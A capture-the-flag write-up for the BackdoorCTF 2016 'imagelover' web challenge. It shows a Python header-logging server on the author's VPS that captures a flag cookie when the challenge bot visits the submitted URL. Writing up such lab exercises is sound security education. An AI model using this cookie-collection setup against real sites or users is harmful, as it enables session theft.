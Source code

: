 ```yaml
---
title: "BackdoorCTF 2016 - imagelover"
layout: post
date: 2016-05-30 4:21
tag:
- BackdoorCTF2016
- Web
- Backdoor
writeup: true
star: false
points: 70
category: Web
---
```


**BackdoorCTF is the annual flagship CTF competition conducted by SDSLabs and InfoSecIITR.**

#### Points: 70

#### Description:

>Find imagelover [here](http://hack.bckdr.in:6969/)

## Write-up

When I went to the specified website it said:

>Imagelover loves viewing pictures of people. He has opened this website so that you can share your pics with him. Imagelover visits the image with his flag as a sign of gratitude.

There was a URL box to add our link to photos. So it said "Imagelover visits the image with his `flag`". The only way to do this would be to send a GET request to the website we enter and send the flag in the Headers. So I googled and found this script to print the Headers of anyone who sends a GET request to my VPS.

~~~python
import SimpleHTTPServer
import SocketServer
import logging

PORT = 8000

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):

    def do_GET(self):
        logging.error(self.headers)
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = SocketServer.TCPServer(("", PORT), Handler)

print "serving at port", PORT
httpd.serve_forever()
~~~

Basically I hosted my VPS with the script above and entered the URL in place of a photograph URL. Imagelover would visit it and I would get the flag from the Headers.

And as expeced as soon as I submitted my URL I got a GET request with the flag in the cookie.
